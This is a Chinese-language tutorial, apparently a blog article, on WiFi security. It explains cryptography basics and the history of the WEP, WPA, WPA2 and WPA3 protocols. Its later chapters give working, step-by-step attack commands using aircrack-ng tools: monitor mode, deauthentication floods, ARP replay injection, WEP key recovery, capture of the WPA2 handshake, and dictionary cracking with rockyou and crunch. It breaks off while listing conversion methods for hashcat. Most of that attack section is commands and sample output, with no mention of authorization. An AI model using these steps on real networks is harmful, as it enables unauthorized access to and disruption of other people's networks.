





> 本文将从最基础的密码学概念讲起，逐步深入WiFi加密协议的演进历史，最终详细介绍使用aircrack-ng和hashcat等工具进行WiFi密码破解的完整技术路线。无论你是刚入门的安全爱好者，还是希望系统了解WiFi安全的技术人员，本文都能为你提供一个清晰完整的知识图谱。

---

# 第一章：密码学基础

在深入WiFi加密协议之前，我们需要先掌握一些基础密码学概念。这些概念不仅适用于WiFi，也是整个现代密码学的基石。

## 1.1 PSK（预共享密钥，Pre-Shared Key）

**PSK** 是最简单的一种密钥协商方式。简单来说，就是一个**事先约定好的密码**，通信双方都知道它。

在WiFi的语境下，PSK就是你设置路由器时输入的那个WiFi密码。当你第一次连接WiFi时，你输入的密码就是PSK。这个PSK会通过一种叫做 **PBKDF2（Password-Based Key Derivation Function 2）** 的算法，与WiFi的SSID（网络名称）一起，生成一个256位的**PMK（成对主密钥，Pairwise Master Key）**。

```
PSK (密码) + SSID (网络名称) → PBKDF2 → PMK (256位)
```

## 1.2 会话密钥（Session Key）

很多人会问：既然AP（接入点）和客户端都知道PSK，那为什么不直接用PSK来加密每个数据包呢？

答案是：**安全性太差**。如果所有设备都用同一个PSK加密数据，那么：
1. 一旦某个设备被攻破，全网所有历史通信都可以被解密
2. 所有设备共享同一个密钥，没有隔离性
3. 密钥无法定期更新

因此，WiFi协议引入了**会话密钥**的概念。每次设备连接时，都会通过**四次握手（4-Way Handshake）** 生成一个临时的**PTK（成对临时密钥，Pairwise Transient Key）**。这个PTK才是真正用于加密数据的密钥。

```
PTK = PRF(PMK, ANonce, SNonce, MAC_AP, MAC_Client)
```

其中：
- **PRF**：伪随机函数（Pseudo-Random Function）
- **ANonce**：AP生成的随机数
- **SNonce**：客户端生成的随机数
- **MAC_AP / MAC_Client**：双方的MAC地址

这样做的好处是：**每次连接都会生成不同的会话密钥**，即使某次会话被破解，也不会影响到其他会话。

## 1.3 为什么不用PSK直接加密封包？

用一个比喻来理解：

> PSK 就像你家大门的**总钥匙**。你不会把总钥匙交给每个访客，而是会为每个访客**临时配一把房间钥匙**。这样即使访客弄丢了房间钥匙，也不影响大门安全。

同理，如果直接用PSK加密所有数据包：
- 只要攻击者捕获到足够多的数据包，就可以通过统计分析还原出PSK
- 没有**前向安全性（Forward Secrecy）**——一旦PSK泄露，所有历史通信都暴露

## 1.4 零知识证明（Zero-Knowledge Proof, ZKP）

零知识证明是一种密码学方法，允许**证明者向验证者证明自己知道某个秘密，而无需透露这个秘密本身**。

举一个经典的例子——**阿里巴巴的山洞**：

> 有一个环形山洞，有两个入口A和B，山洞中间有一扇需要咒语才能打开的门。证明者（Peggy）想向验证者（Victor）证明她知道咒语，但又不想说出咒语内容。于是Victor随机喊一个入口让Peggy出来，如果Peggy每次都能从正确的出口出现，那么多次实验后Victor就可以确信Peggy知道咒语——但全程没有听到咒语内容。

```
        ┌─────────────┐
  A ───→│             │←─── B
        │   秘密之门   │
        │  (需要咒语)  │
        └─────────────┘
```

在WiFi的WPA3中使用的**SAE（同时验证对等，Simultaneous Authentication of Equals）** 协议就巧妙地运用了类似零知识证明的思想——客户端和AP各自证明自己知道密码，但密码本身从不通过无线信号传输。

## 1.5 为什么不能直接传递明文密码？

这个问题看起来很简单，但背后有深刻的安全考虑。

如果客户端直接发送明文密码给AP：
```
客户端 ──── "MyPassword123" ────→ AP
```

攻击者只需在无线信号范围内**嗅探（Sniffing）** 就能直接获得密码，之后想什么时候连就连，毫不费力。

WiFi信号是**广播**的，不像有线网络那样物理隔离。任何在信号范围内的人都可以接收到所有无线帧。这就是为什么身份验证必须通过**密码学协议**来完成，而不是直接传输密码。

## 1.6 流密码（Stream Cipher）

**流密码**是一种对称加密算法，它将密钥通过伪随机数生成器扩展为一个任意长度的**密钥流（Keystream）**，然后将密钥流与明文进行异或（XOR）运算得到密文。

```
加密: 明文 ⊕ 密钥流 = 密文
解密: 密文 ⊕ 密钥流 = 明文
```

WiFi早期使用的 **RC4** 算法就是一种流密码。WEP协议正是使用RC4来加密数据。

流密码的关键安全要求是：**一个密钥流绝对不能重复使用**。如果两个不同的明文用同一个密钥流加密：
```
C1 = P1 ⊕ KS
C2 = P2 ⊕ KS
C1 ⊕ C2 = P1 ⊕ P2
```

攻击者通过异或两个密文，可以直接得到两个明文的异或结果，利用语言统计特征就可以恢复出明文内容。这就是所谓的**两次一密（Two-Time Pad）** 攻击。

## 1.7 为什么每个数据包要用不同的密钥？

回到WiFi的场景，如果所有数据包都用同一个密钥加密，会产生两个严重问题：

1. **重放攻击（Replay Attack）**：攻击者可以记录一个合法的加密数据包，然后在以后重新发送它，让接收方误以为是新数据
2. **统计分析**：对于WEP这样的协议，收集足够多使用同一密钥加密的数据包后，可以通过统计分析推导出密钥

因此，WiFi协议为每个数据包生成一个**数据包密钥（Per-Packet Key）**。在WEP中，这个机制是通过**初始化向量（IV, Initialization Vector）** 实现的——每个数据包附带一个24位的IV，与PSK组合后生成该数据包专用的RC4密钥。

```
数据包密钥 = PSK || IV (24位)
```

这也是为什么WEP的IV只有24位（约1600万个可能值）是一个巨大缺陷——在繁忙的网络中，几小时内就会出现IV碰撞（两个数据包使用了相同的IV）。

## 1.8 WiFi加密涉及的其他密码学技术

### 1.8.1 迈克尔算法（Michael）

WPA引入的一种**消息完整性码（MIC, Message Integrity Code）** 算法，用于防止数据包被篡改。相比WEP使用的CRC-32（循环冗余校验，纯粹用于检错，无法防篡改），Michael提供了真正的完整性保护。

### 1.8.2 TKIP（临时密钥完整性协议，Temporal Key Integrity Protocol）

WPA为了解决WEP的密钥重用问题而设计的过渡方案。TKIP在RC4的基础上增加了：
- **密钥混合（Key Mixing）**：为每个数据包生成唯一的加密密钥
- **序列计数器（TSC, TKIP Sequence Counter）**：防止重放攻击
- **Michael**：消息完整性校验

### 1.8.3 CCMP（计数器模式密码块链消息认证码协议，Counter Cipher Mode with Block Chaining Message Authentication Code Protocol）

WPA2引入的基于**AES（高级加密标准，Advanced Encryption Standard）** 的加密协议。使用 **CCM模式（Counter with CBC-MAC）**，同时提供加密和完整性校验，是目前最广泛使用的WiFi加密方案。

### 1.8.4 GCMP（伽罗瓦计数器模式协议，Galois/Counter Mode Protocol）

WPA3引入的更强的加密协议，基于**AES-GCMP-256**，提供256位的加密强度和完整性校验。

### 1.8.5 椭圆曲线密码学（ECC, Elliptic-Curve Cryptography）

WPA3的SAE协议基于**椭圆曲线密码学**，特别是**椭圆曲线Diffie-Hellman密钥交换（ECDH, Elliptic Curve Diffie-Hellman）**，实现了前向安全性和抗离线字典攻击的能力。

---

# 第二章：WiFi加密协议演进史



## 2.1 WEP（有线等效加密，Wired Equivalent Privacy）

**诞生时间**：1997年作为IEEE 802.11标准的一部分

**设计目标**：提供与有线网络同等级别的安全性，因此得名"有线等效加密"。

### 工作原理

WEP使用RC4流密码进行加密，CRC-32进行完整性校验。

```
                   IV (24位)         秘钥 (40/104位)
                       │                  │
                       └────────┬─────────┘
                                │
                              RC4算法
                                │
                        生成密钥流 (Keystream)
                                │
           明文 ──→ ⊕ (XOR) ──→ 密文
           CRC-32校验值也一同加密
```

### 严重缺陷

WEP的缺陷多到几乎可以写一本书，以下是其中最主要的：

| 缺陷 | 描述 | 后果 |
|------|------|------|
| **IV太短** | 24位IV，约1600万种组合 | 繁忙网络中几小时内出现碰撞 |
| **弱IV** | 某些IV值会导致RC4密钥可预测 | 著名的FMS攻击（Fluhrer, Mantin, Shamir） |
| **CRC-32不是MAC** | CRC-32是校验码，不是消息认证码 | 攻击者可以修改密文而不被检测 |
| **无重放保护** | 没有序列号机制 | 可以重放数据包 |
| **密钥直接管理** | 静态密钥，所有设备共享 | 一旦泄露，全网受损 |

### 破解难度

WEP的破解非常容易。在收集到足够的IV（约20000-40000个数据包）后，使用aircrack-ng可以在**几秒到几分钟**内破解出密钥。即使是最强的128位WEP（104位密钥），也只是增加了破解所需的数据包数量，而不是从根本上解决问题。

WEP在商业环境中早已被淘汰，但某些老旧设备或IoT设备可能仍在使用它。

## 2.2 WPA（Wi-Fi保护接入，Wi-Fi Protected Access）

**诞生时间**：2003年

**背景**：WiFi联盟意识到WEP已经无可救药，但完整的802.11i标准（即后来的WPA2）尚未制定完成。因此，**WPA作为一个过渡方案**被紧急推出，允许通过固件升级在现有硬件上运行。

### 工作原理

WPA仍然使用RC4流密码，但通过 **TKIP（临时密钥完整性协议）** 大幅增强了安全性：

```
        PSK (密码)
            │
          PBKDF2
            │
        256位PMK
            │
      四次握手 (4-Way Handshake)
            │
     ┌──────┴──────┐
     │             │
     PTK          GTK
 (单播加密密钥)  (组播加密密钥)
     │
密钥混合 (Per-Packet Key Mixing)
     │
   TKIP序列号 (防止重放)
     │
   Michael MIC (完整性校验)
     │
   RC4加密数据包
```

### WPA vs WEP 关键改进

1. **动态密钥**：通过四次握手动态生成，不再是静态密钥
2. **密钥混合**：每个数据包使用不同的加密密钥
3. **序列计数器**：防止重放攻击
4. **Michael MIC**：提供完整性保护，防止篡改

### WPA的局限性

TKIP的设计受限于必须兼容老硬件（仍然是RC4），因此存在一些固有问题：
- **Michael MIC的弱点**：Michael算法本身不够强，理论上可以被暴力破解。为此WPA规定，如果检测到错误的MIC，AP会断开所有连接60秒（称为**MIC Countermeasure**），以防止在线暴力攻击
- **RC4仍然老旧**：虽然TKIP减缓了问题，但RC4本身已经被证明存在多种弱点
- **无前向安全性**：一旦PSK泄露，所有历史会话都可能被解密

## 2.3 WPA2（Wi-Fi保护接入2）

**诞生时间**：2004年

**标准**：IEEE 802.11i-2004

**WPA2是WiFi安全的一个里程碑**，它完全摆脱了RC4，转向更强大的AES加密。WPA2至今仍然是使用最广泛的WiFi安全标准。

### 核心改进：从RC4到AES

| 特性 | WPA (TKIP) | WPA2 (CCMP) |
|------|-----------|-------------|
| 加密算法 | RC4（流密码） | AES（分组密码） |
| 加密模式 | WEP-like封装 | CCM（CTR + CBC-MAC） |
| 密钥长度 | 128位 | 128位 |
| 完整性算法 | Michael | AES-CBC-MAC |
| 硬件要求 | 老硬件可升级 | 需要新硬件（AES加速） |

### 四次握手（4-Way Handshake）详解

四次握手是WPA/WPA2的核心协议，理解它对于理解WiFi破解至关重要：



### 破解的关键：捕获四次握手

要破解WPA2密码，攻击者需要捕获一次完整的四次握手。由于客户端可能不在连接过程中，攻击者可以使用**去认证攻击（Deauthentication Attack）** 强制客户端断开并重连：

```
aireplay-ng --deauth 1 -a [AP_MAC] -c [Client_MAC] wlan0mon
```

去认证帧是**未加密的管理帧**——这是WPA2的一个重要设计缺陷。

### WPA2的已知漏洞

1. **KRACK（密钥重装攻击，Key Reinstallation Attack，2017年）**：利用WPA2四次握手中的一个实现缺陷，通过重放消息3导致重置随机数，从而重用密钥。这是一个协议实现层的漏洞，而非协议设计层面的根本缺陷。

2. **离线字典攻击**：由于四次握手的所有信息（ANonce、SNonce、MIC等）都可以通过嗅探获得，攻击者可以在离线条件下尝试不同的密码，计算PMK→PTK→MIC，并与捕获的MIC比对。这使得破解速度只受CPU/GPU性能限制。

3. **无保护的管理帧**：去认证帧、探针帧等管理帧未加密，使DoS攻击和中间人攻击成为可能。

## 2.4 WPA3（Wi-Fi保护接入3）

**诞生时间**：2018年

**标准**：IEEE 802.11-2016 修订 + Wi-Fi Alliance WPA3

**WPA3是对WPA2的彻底革新**，不是增量更新。它解决了WPA2中最根本的安全缺陷。

### 核心改进一：SAE（同时验证对等，Simultaneous Authentication of Equals）

SAE，也被称为**蜻蜓握手（Dragonfly Handshake）**，替代了WPA2的PSK + 四次握手模式。

SAE基于**椭圆曲线Diffie-Hellman（ECDH）** 密钥交换，实现了两个关键目标：

```
传统WPA2四次握手:
    密码已知 → 可以离线暴力破解（无前向安全性）

WPA3 SAE:
    ┌──────────────────────────────────┐
    │ 1. 客户端和AP各自使用密码 + MAC  │
    │    生成一个"承诺"值               │
    ├──────────────────────────────────┤
    │ 2. 双方交换承诺值，进行ECDH密钥交换│
    ├──────────────────────────────────┤
    │ 3. 如果密码不匹配，交换产生的是     │
    │    随机垃圾，无法计算后续密钥       │
    ├──────────────────────────────────┤
    │ 4. 即使交换被记录，离线暴力破解     │
    │    需要为每个尝试的密码重新执行     │
    │    ECDH运算（计算量极大）           │
    └──────────────────────────────────┘
```

**SAE的关键优势**：
1. **抗离线字典攻击**：每次尝试密码都需要执行ECDH运算，比简单计算PMK慢数千倍
2. **前向安全性（Forward Secrecy）**：即使长期密码泄露，过去的会话也无法被解密
3. **完美前向安全性（PFS, Perfect Forward Secrecy）**：每个会话使用独立的临时密钥

### 核心改进二：OWE（机会性无线加密，Opportunistic Wireless Encryption）

OWE为开放网络（无密码的公共WiFi）提供加密：

```
传统开放网络:
客户端 ── 明文数据 ──→ AP（任何人都可以嗅探）

OWE:
客户端 ←── Diffie-Hellman密钥交换 ──→ AP
客户端 ── 加密数据 ──→ AP（即使无密码，也被加密）
```

OWE通过**独立加密（Individualized Encryption）** 保护每个用户的通信不被其他用户窃听。

### 核心改进三：PMF（保护的管理帧，Protected Management Frames）

WPA3强制要求PMF，使去认证帧和管理帧也被加密保护：

```
WPA2: 去认证帧 ──→ 明文（任何人都可以伪造）
WPA3: 去认证帧 ──→ 加密（只有AP能发送）
```

这意味着经典的**去认证攻击**在纯WPA3网络中**不再有效**。

### 核心改进四：192位安全套件

WPA3-Enterprise支持 **CNSA（商业国家安全算法，Commercial National Security Algorithm）** 套件：
- 加密：AES-GCMP-256（256位）
- 完整性：HMAC-SHA-384（384位）
- 密钥交换：ECDH P-384（384位椭圆曲线）
- 证书：ECDSA P-384

### WPA2 vs WPA3 完整对比

| 特性 | WPA2 | WPA3 |
|------|------|------|
| 认证协议 | PSK (四次握手) | SAE (蜻蜓握手) |
| 加密算法 | AES-CCMP (128位) | AES-GCMP (128/256位) |
| 抗离线字典攻击 | ❌ 易受攻击 | ✅ 固有免疫 |
| 前向安全性 | ❌ 不支持 | ✅ 完美前向安全 |
| 管理帧保护 | ❌ 可选 | ✅ 强制 |
| 开放网络加密 | ❌ 无 | ✅ OWE |
| 硬件要求 | 低 | 中等（需要更强计算） |

### WPA3为什么难以被破解？

1. **无法捕获四次握手**：SAE的密钥交换是抗捕获的，即使记录了整个SAE交换过程，也无法离线验证密码猜测
2. **无去认证攻击**：PMF阻止了伪造的去认证帧
3. **计算成本高**：每次密码尝试都需要ECDH运算，GPU加速效果有限
4. **密码加盐**：SAE中密码与MAC地址绑定，每个连接使用不同的"承诺"值

目前针对WPA3的有效攻击主要是针对**降级攻击**——让WPA3设备回退到WPA2模式，然后使用传统的WPA2破解方法。但纯WPA3网络目前没有公开的实用破解方法。

---

# 第三章：WPS破解技术

## 3.1 什么是WPS？

**WPS（Wi-Fi保护设置，Wi-Fi Protected Setup）** 旨在简化WiFi连接过程。用户不需要输入长密码，只需按下路由器上的一个按钮（PBC模式），或者输入一个8位PIN码即可连接。

## 3.2 PIN码的致命缺陷

WPS PIN码由8位数字组成，但它的验证机制存在设计缺陷：

```
PIN码: 第1-7位 + 第8位校验和
验证过程: 分为两步验证
    第一步: 验证前4位（共10000种可能）
    第二步: 验证后3位 + 校验和（共1000种可能）
    总共只需尝试: 10000 + 1000 = 11000 次
    而不是: 10^7 = 10000000 次
```

**由于PIN码验证的分步设计，暴力破解PIN码最多只需要11000次尝试**，而不是1000万次。以现代设备的速度，这可以在**2-10小时内完成**。

## 3.3 Pixie Dust 攻击

2014年发现的一种更高效的WPS攻击方法。某些路由器在生成随机数时存在缺陷（使用了弱随机数生成器），使得攻击者可以直接计算出PIN码，而不是暴力破解。**Pixie Dust攻击在几秒到几分钟内就能破解WPS**。

## 3.4 防御WPS攻击

1. **在路由器设置中禁用WPS**
2. 如果必须使用WPS，选择支持WPS 2.0（带有锁定机制，多次失败后锁定）的设备
3. 更新路由器固件

---

# 第四章：WEP破解方法（详细步骤）

## 4.1 环境准备

**所需工具**：
- Kali Linux操作系统（或任何安装了aircrack-ng的Linux发行版）
- 支持**监控模式（Monitor Mode）** 和**数据包注入（Packet Injection）** 的无线网卡
    - 推荐芯片组：Atheros AR9271、RTL8812AU、RTL8187L

**安装aircrack-ng**：
```bash
sudo apt update
sudo apt install aircrack-ng
```

## 4.2 WEP破解步骤

### 步骤1：查看无线接口

```bash
iwconfig
```

> 终端输出示例（图片占位，请替换为实际截图）

### 步骤2：启用监控模式

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

执行后，接口名称会变为`wlan0mon`。

```
输出示例:
PHY     Interface       Driver          Chipset
phy0    wlan0           ath9k_htc       Atheros Communications AR9271
                (mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
```

> 🔴 实际操作截图请自行补充，建议使用手机拍摄或使用虚拟机截图工具

### 步骤3：扫描目标网络

```bash
sudo airodump-ng wlan0mon
```

```
输出示例:
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC CIPHER  AUTH ESSID
 XX:XX:XX:XX:XX:XX  -50  120        5      0     6   54   WEP WEP     OPN   Target_AP
 YY:YY:YY:YY:YY:YY  -65  89         23     1     11  54   WPA2 CCMP   PSK   Another_Net
```

记录目标网络的BSSID（AP的MAC地址）、信道（CH）和加密类型。

### 步骤4：锁定目标并捕获数据包

```bash
sudo airodump-ng --bssid XX:XX:XX:XX:XX:XX -c 6 -w wep-crack wlan0mon
```

参数说明：
- `--bssid`：目标AP的MAC地址
- `-c`：目标网络的信道
- `-w`：输出文件前缀

### 步骤5：关联伪造客户端（提升数据包注入效率）

WEP破解依赖于收集IV，需要注入数据包来加速收集过程。首先关联一个伪造的客户端：

```bash
# 在新的终端窗口中
sudo aireplay-ng -1 0 -e "目标SSID" -a XX:XX:XX:XX:XX:XX -h 00:11:22:33:44:55 wlan0mon
```

其中`-h`指定伪造的MAC地址。

### 步骤6：注入ARP请求包（加速IV收集）

WEP破解需要大量IV。最有效的方法是捕获并重放ARP数据包：

```bash
# 在新的终端窗口中
sudo aireplay-ng -3 -b XX:XX:XX:XX:XX:XX -h 00:11:22:33:44:55 wlan0mon
```

```
输出示例:
Saving ARP requests in replay_arp-0622.cap
You should also start airodump-ng to capture replies.

Read 219 packets (got 189 ARP requests and 154 ACKs), sent 1561 packets...(500 pps)
```

这将会自动捕获ARP请求并以极快速度重放，从而让AP生成大量包含新IV的加密数据包。

当收集到约**2万到4万个IV**（在airodump-ng界面右上角可以看到#IV计数）时，就可以开始破解。

### 步骤7：破解WEP密钥

```bash
sudo aircrack-ng -b XX:XX:XX:XX:XX:XX wep-crack-01.cap
```

```
输出示例:
                             Aircrack-ng 1.7

                   [00:00:01] Tested 47231 keys (got 38746 IVs)

   KB    depth   byte(vote)
    0    0/11   45(33736) 76(28145) 3C(28145) 4A(27964) 32(27904)
    1    0/10   32(34560) 21(29696) 89(29184) 4B(29184) 63(28928)
    2    0/12   AB(33024) 12(31152) 98(29696) 7B(29696) B3(29184)
    3    0/12   67(34560) CD(32768) 43(31232) 90(29184) 99(28416)
    4    0/12   12(34560) 2B(31232) 89(29696) 4D(29696) A8(29184)

     KEY FOUND! [ 45:32:AB:67:12 ]

  Master Key     : 45 32 AB 67 12
```

**在不到1分钟内，WEP密钥`45:32:AB:67:12`就暴露了！**

### 自动工具：Wesside-ng

对于不想手动执行每个步骤的情况，`wesside-ng`可以自动完成整个WEP破解流程：

```bash
sudo wesside-ng -a XX:XX:XX:XX:XX:XX wlan0mon
```

### WEP破解完整流程



---

# 第五章：WPA2破解方法（详细步骤）

## 5.1 WPA2与WEP破解的根本区别

| 维度 | WEP | WPA2 |
|------|-----|------|
| 攻击方法 | 收集IV，统计分析 | 捕获四次握手，离线字典攻击 |
| 所需数据 | 数万个数据包 | 一个完整的四次握手 |
| 破解时间 | 数秒到数分钟 | 取决于密码强度和字典大小 |
| 密码复杂度 | 无关（密钥是固定的） | 强密码极难破解 |
| 能否保证破解 | 几乎100% | 仅当密码在字典中 |

**WPA2不能像WEP那样保证100%破解**。如果密码足够强（15位以上的随机字符），即使使用超级计算机也可能需要数百年。

## 5.2 WPA2破解步骤

### 前置步骤：启用监控模式和扫描网络

与WEP破解的前3步相同。

### 步骤4：捕获四次握手

```bash
sudo airodump-ng --bssid XX:XX:XX:XX:XX:XX -c 6 -w wpa2-crack wlan0mon
```

在airodump-ng界面右上角，当显示`WPA handshake: XX:XX:XX:XX:XX:XX`时，表示四次握手已被成功捕获。

### 步骤5：去认证攻击（如果客户端未主动连接）

如果目标网络上没有设备正在连接，你需要让已连接的设备断开并重连：

```bash
sudo aireplay-ng --deauth 4 -a XX:XX:XX:XX:XX:XX -c YY:YY:YY:YY:YY:YY wlan0mon
```

参数说明：
- `--deauth 4`：发送4个去认证帧（通常1个就足够，但多发送几个确保收到）
- `-a`：AP的MAC地址
- `-c`：目标客户端（已连接设备）的MAC地址

```
输出示例:
16:24:36  Waiting for beacon frame (BSSID: XX:XX:XX:XX:XX:XX) on channel 6
16:24:36  Sending 64 directed DeAuth (code 7). STMAC: [YY:YY:YY:YY:YY:YY] [ 0|58 ACKs]
16:24:37  Sending 64 directed DeAuth (code 7). STMAC: [YY:YY:YY:YY:YY:YY] [ 0|62 ACKs]
```

发送去认证帧后：
1. 客户端断连
2. 客户端自动重新连接
3. 重新连接过程中会产生新的四次握手
4. airodump-ng捕获握手包

### 步骤6：验证握手包

```bash
aircrack-ng wpa2-crack-01.cap
```

这将列出捕获文件中的所有网络和握手包状态。如果看到`1 handshake`表示捕获成功。

```
输出示例:
Reading packets, please wait...
Opening wpa2-crack-01.cap
Read 1247 packets.

   #  BSSID              ESSID                     Encryption
   1  XX:XX:XX:XX:XX:XX  Target_Net                WPA (1 handshake)

Choosing first network as target.
```

### 步骤7：使用字典破解

```bash
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b XX:XX:XX:XX:XX:XX wpa2-crack-01.cap
```

参数说明：
- `-w`：字典文件路径
- `-b`：目标BSSID

```
输出示例:
                          Aircrack-ng 1.7

                   [00:00:01] 25/0 keys tested (375.38 keys/sec)

                          KEY FOUND! [ password123 ]

  Master Key     : 4F 23 9E 1A 7B C8 D6 E5 F0 2A 1B 3C 4D 5E 6F 78
                   ...
  Transient Key  : ...
  EAPOL HMAC     : ...
```

### 5.3 使用crunch生成自定义字典

如果不想使用现成字典，可以用`crunch`生成自定义组合：

```bash
# 生成长度8位，包含数字和小写字母的所有组合
crunch 8 8 abcdefghijklmnopqrstuvwxyz0123456789 -o custom-wordlist.txt

# 使用crunch管道输出到aircrack-ng（节省磁盘空间）
crunch 8 8 abcdefghijklmnopqrstuvwxyz0123456789 | aircrack-ng -w - -b XX:XX:XX:XX:XX:XX wpa2-crack-01.cap
```

**注意**：8位小写字母+数字的组合有36^8 ≈ 2.8万亿种，即使每秒尝试10万个也需要325年。

### 5.4 WPA2破解完整流程



---

# 第六章：使用Hashcat进行GPU加速破解

## 6.1 什么是Hashcat？

**Hashcat** 是世界上最快的密码恢复工具之一。与aircrack-ng使用CPU不同，hashcat可以利用**GPU（图形处理器，Graphics Processing Unit）** 的并行计算能力，实现比CPU高数十甚至数百倍的破解速度。

## 6.2 为什么GPU更快？

| 特性 | CPU | GPU |
|------|-----|-----|
| 核心数 | 4-32个 | 数千个（如RTX 4090有16384个CUDA核心） |
| 架构 | 少量强核心 | 大量弱核心，适合并行计算 |
| WPA2破解速度 | ~10万次/秒 | ~1000万次/秒 |

## 6.3 将捕获文件转换为Hashcat格式

aircrack-ng捕获的`.cap`文件需要转换为hashcat支持的格式：

```bash
# 方法1：使用aircrack-ng内置转换
aircrack-ng wpa2-crack-01.cap -J wpa2-hashcat

# 方法2：使用hccapx工具
cap2hccapx wpa2-crack-01.cap wpa2-hccapx.hccapx

# 方法3：使用hcxpcapngtool (推荐，更新)
